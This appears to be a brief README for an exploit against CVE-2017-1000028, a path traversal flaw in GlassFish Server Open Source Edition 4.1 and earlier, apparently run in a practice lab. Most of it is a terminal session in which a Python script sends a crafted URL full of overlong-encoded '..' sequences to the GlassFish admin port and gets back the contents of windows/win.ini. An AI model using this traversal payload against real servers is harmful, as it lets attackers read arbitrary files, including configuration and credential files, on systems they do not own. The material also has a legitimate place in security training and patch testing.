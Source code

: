 # Path Traversal in Oracle GlassFish Server Open Source Edition

- Vendor: Oracle Corporation (Project sponsored by Oracle)
- Product: GlassFish Server Open Source Edition
- Version affected:  4.1 and prior versions

```python
┌──(kali⚡lof1)-[~/Documents/PG]
└─$ python3 GlassFish_CVE-2017-1000028.py --ip 192.168.240.168 --path windows/win.ini

Requested URL: http://192.168.240.168:4848/theme/META-INF/prototype%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AFwindows/win.ini
Status Code: 200
Response:
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
